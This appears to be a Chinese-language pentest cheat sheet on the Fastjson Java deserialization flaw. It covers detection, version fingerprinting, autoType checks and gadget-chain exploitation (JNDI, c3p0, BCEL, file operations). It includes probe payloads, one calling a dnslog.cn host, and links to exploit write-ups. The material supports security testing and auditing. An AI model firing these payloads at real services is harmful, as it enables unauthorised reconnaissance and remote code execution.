 漏洞探测
---

### 探测 Fastjson
```text
无害判断后端的 json 处理组件是否为 fastjson
```
#### DNSLog

- [通过dnslog探测fastjson的几种方法](https://gv7.me/articles/2020/several-ways-to-detect-fastjson-through-dnslog/)
- [发现最新版本1.2.67依然可以通过dnslog判断后端是否使用fastjson](https://github.com/alibaba/fastjson/issues/3077) `讨论区很精彩`

### 版本识别

#### 触发异常回显
- 适用于会返回异常的场景，出不出网都可

特殊业务场景,抛出异常信息
- 为什么说`特殊`,因为很多场景不一定会回显

```java
 @ResponseBody
 public  String parseObjectHandler(@RequestBody String dataStr) {
    try {
       JSONObject data = JSON.parseObject(dataStr);
       return dataStr;
    } catch (Exception e) {
       return "error: " + e.getMessage();
    }
 }
```

- 已测试
  - v1.2.23 
  - v1.2.47（default）
  - v1.2.68（default）
  - v1.2.76（default）
  - v1.2.80（default）-> v1.2.76（代码就是这样写的 !）
  - v1.2.83

```text
// https://b1ue.cn/archives/402.html
{"@type":"java.lang.AutoCloseable"
```
![](img/dcf784b91c1549b3bb3a38dee5f28511.png)

![](img/93afd2976fce487d85794a41f6700d65.png)

![](img/eaaa5eee918f49238b531632a1b3eb76.png)


v1.2.80 -> v1.2.76 ??? `果然眼见也不一定为实`

- com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer

![](img/41a2f918a49c41b7ac62521bafa778cb.png)

![](img/32e2b52cedb344d5be39ed880c30e134.png)

#### DNSLog + 黑名单

- 适用于出网无回显的场景

思路：
根据每个版本所内置的黑名单不同，去加载相关的类来判断
- 加载成功 -> 不报错
- 加载失败 -> 报错



参考：
https://github.com/LeadroyaL/fastjson-blacklist

#### 延时 

##### JNDI -> SSRF

##### DoS


### 判断 autoType 是否开启

判断autoType是否开启，选择利用链。

```
[{"@type":"java.net.CookiePolicy"},{"@type":"java.net.Inet4Address","val":"ydk3cz.dnslog.cn"}]
```

- DNSLog有解析记录 -> autoType 开启 / fastjson < v1.2.24
- DNSLog没有解析记录 -> autoType 未开启


### 探测 Gadget
思路：
通过加载相关Gadget的类是否成功来判断该利用链是否存在。




漏洞利用
---

### HTTP

#### c3p0 - URLClassLoader

- https://tttang.com/archive/1411/#toc_urlclassloader

### JNDI

- 利用条件限制
  - [Bypass](https://paper.seebug.org/942/#4-jdk-8u191)

```
RMI利用的JDK版本≤ JDK 6u132、7u122、8u113
LADP利用JDK版本≤ 6u211 、7u201、8u191
```

#### rt - JdbcRowSetImpl


#### c3p0

- https://tttang.com/archive/1411/#toc_jndi

#### ibatis / mybatis - JndiDataSourceFactory

- org.apache.ibatis.datasource.jndi.JndiDataSourceFactory.setProperties
  - initCtx.lookup("可控")


```text
public void setProperties(Properties properties) {
    try {
        Properties env = getEnvProperties(properties);
        InitialContext initCtx;
        if (env == null) {
            initCtx = new InitialContext();
        } else {
            initCtx = new InitialContext(env);
        }

        if (properties.containsKey("initial_context") && properties.containsKey("data_source")) {
            Context ctx = (Context)initCtx.lookup(properties.getProperty("initial_context"));
            this.dataSource = (DataSource)ctx.lookup(properties.getProperty("data_source"));
        } else if (properties.containsKey("data_source")) {
            this.dataSource = (DataSource)initCtx.lookup(properties.getProperty("data_source"));
        }
```

#### xbean-reflect - JndiConverter



### 不出网

- [FastJson RCE不出网利用研究](https://mp.weixin.qq.com/s/nKPsoNkHtNdOj-_v53Bc9w)

#### tomcat-dbcp/commons-dbcp - BasicDataSource + BCEL

- https://github.com/depycode/fastjson-local-echo


#### c3p0

- https://github.com/depycode/fastjson-c3p0

- [JAVA反序列化之C3P0不出网利用](http://www.yulegeyu.com/2021/10/10/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

#### rt - TemplatesImpl - 鸡肋

利用条件：

Feature.SupportNonPublicField 需要开启，因为_bytecodes 和 _outputProperties 两个关键属性是私有的

#### commons-io 文件操作

- [fastjson 读文件 gadget 的利用场景扩展](https://b1ue.cn/archives/506.html)
- [Fastjson 1.2.68 反序列化漏洞 Commons IO 2.x 写文件利用链挖掘分析](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)


#### rt - MarshalOutputStream 文件操作

- [fastjson v1.2.68 RCE利用链复现](https://mp.weixin.qq.com/s?__biz=MzI4OTQ5Njc2Mw==&mid=2247484334&idx=1&sn=825221db6e7d0ba3b7b4713ac3bf68fa&chksm=ec2f087adb58816c3b4aab28d2d53f2a22617233bd91ad8e4887a1724dc1747ab9ffc03c5c93&scene=126&&sessionid=1663752244#rd)


#### ibatis/mybatis - UnpooledDataSource + BCEL


代码审计
---

```
.parseObject()
.parse()
```





